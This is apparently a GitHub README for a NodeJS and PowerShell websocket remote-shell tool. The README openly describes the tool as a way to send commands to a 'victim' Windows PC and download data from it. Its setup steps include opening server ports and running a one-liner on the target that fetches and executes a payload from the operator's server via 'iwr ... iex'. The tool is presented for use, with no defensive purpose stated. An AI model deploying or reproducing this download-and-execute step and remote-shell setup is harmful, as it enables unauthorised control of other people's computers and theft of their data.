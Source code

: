 # About Reverse-Powershell-Websocket

This is a NodeJS server with the ability to pass through Powershell commands to a victim.

## Features
* NodeJS server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a NodeJS environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a NodeJS environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Installation
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
#### 1
![settings]()
#### 2
![gateway]()
#### 3
![checkout]()

